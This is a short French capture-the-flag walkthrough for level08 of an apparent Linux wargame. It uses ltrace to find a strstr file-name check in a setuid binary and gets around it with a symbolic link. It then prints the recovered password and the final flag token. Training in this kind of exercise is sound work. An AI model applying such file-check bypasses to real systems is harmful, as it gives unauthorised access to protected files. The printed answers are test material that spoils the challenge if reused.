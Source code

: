 On trouve dans le dossier home un file token, dont nous ne pouvons lire le contenu et un binaire ./level08 qui, si on le lance nous affiche un message :
<pre><code>> ./level08
./level08 [file to read]
> ./level08 token
You may not access 'token'
</code></pre>

On cherche à savoir ce que le binaire fait, pour cela on utilise **ltrace** :
<pre><code>> ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")= "token"
printf("You may not access '%s'\n", "token"You may not access 'token')= 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>
> On observe le <code>strstr("token", "token")= "token"</code> qui veut dire que nous ne pouvons pas lire le fichier quand ce dernier s'appelle "token"

Donc on créé un lien symbolique avec un nom different afin de contourner la vérification :
<pre><code>> ln -s `pwd`/token /tmp/mdp
./level08 /tmp/mdp
quif5eloekouj29ke0vouxean
</code></pre>

On teste le mot de passe :
<pre>
<code>> su flag08</code>
<code>Password: quif5eloekouj29ke0vouxean</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
</pre>
